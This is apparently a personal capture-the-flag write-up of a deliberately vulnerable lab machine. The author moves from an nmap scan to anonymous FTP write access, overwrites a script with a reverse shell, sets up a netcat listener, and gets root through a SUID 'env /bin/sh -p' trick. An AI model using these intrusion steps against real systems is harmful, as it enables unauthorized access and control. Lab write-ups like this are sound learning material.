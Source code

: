 # Anonymous

I had to run an nmap scan to find out what what is going on in the server. I got the following output:

```c
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.2.54.229
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
```

There are 4 ports open here, so I will have to find a way to get in using these ports. If you notice next to ftp it states "\[NSE: writeable\]". This means that we can add a file to the ftp folder. I was assuming that we would add a php-reverse-shell to the file and then use that in order to get a way inside. I did come to realize that there was no way for me to execute the php code. I then had to look at a [write-up](https://m0ndzon3.blogspot.com/2020/06/tryhackme-write-up-anonymous.html) in order to get my foothold into the machine. Before I get too a head of myself, I will let you know where I am currently at for the machine. I noticed that there are files in the ftp directory called "scripts":

```c
	-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
	-rw-rw-r--    1 1000     1000         1978 Mar 10 00:17 removed_files.log
	-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
```

I downloaded all of these files to my own computer using the "mget \*" command. I then used the [same write-up](https://m0ndzon3.blogspot.com/2020/06/tryhackme-write-up-anonymous.html) as previously to find out my next step. My next step was to overwrite the clean.sh file, and then fill it in with a reverse bash tcp connection. This can be found at [this github](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp). After this is done, we can then then push it to the ftp using the mput command. Something such as "mput clean.sh", and this will overwrite the current file on the machine. On another tab, on my machine, I ran netcat. I ran the command "nc -lvp 1234" where I am listening on my machine on the port 1234. 

![](../../.gitbook/assets/pasted-image-20210309184513.png)

I then found user.txt:

![](../../.gitbook/assets/screenshot-2021-03-09-185000.png)

I then needed a way to find a way to get to root. In order to do this, I ran the command:

```c
find / -perm -u=s 2>/dev/null
```

This allows us to us to see what commands we are able to run with our current user. I am not sure why I ran the following command, but it seems to be the only way to get to root. I do not understand why it works. Even after doing a bit of research about it, I still seem to be lost as to why it works. The command was:

```c
env /bin/sh -p
```

This got me to root, and I got the root.txt. 

